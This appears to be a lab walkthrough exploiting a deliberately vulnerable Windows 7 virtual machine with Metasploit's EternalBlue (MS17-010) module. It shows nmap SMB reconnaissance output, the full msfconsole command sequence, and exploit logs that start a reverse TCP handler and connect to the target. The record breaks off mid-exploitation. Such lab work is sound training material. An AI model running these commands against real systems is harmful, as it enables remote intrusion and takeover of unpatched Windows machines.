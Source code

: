 ```
Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-07-30T12:32:03
|_  start_date: 2024-07-30T11:43:11
|_clock-skew: mean: -39m59s, deviation: 1h09m16s, median: 0s
| smb-os-discovery: 
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: vuln-smbv2
|   NetBIOS computer name: VULN-SMBV2\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-07-30T14:32:03+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: VULN-SMBV2, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:cf:d6:a6 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.54 seconds
```

```shell
msfconsole -q
```

```shell
search eternalblue
```

```shell
use exploit/windows/smb/ms17_010_eternalblue
```

```shell
set RHOSTS <IP>
```

```shell
exploit
```

Info:

```
[*] Started reverse TCP handler on 192.168.5.199:4444 
[*] 192.168.5.141:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.5.141:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.5.141:445     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.5.141:445 - The target is vulnerable.
[*] 192.168.5.141:445 - Connecting to target for exploitation.
[+] 192.168.5.141:445 - Connection established for exploitation.
[+] 192.168.5.141:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.5.141:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.5.141:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
[*] 192.168.5.141:445 - 0x00000010  74 65 20 37 36 30 31 20 53 65 72 76 69 63 65 20  te 7601 Service 
[*] 192.168.5.141:445 - 0x00000020  50 61 63 6b 20 31                                Pack 1          
[+] 192.168.5.141:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.5.141:445 - Trying exploit with 12 Groom Allocations.
```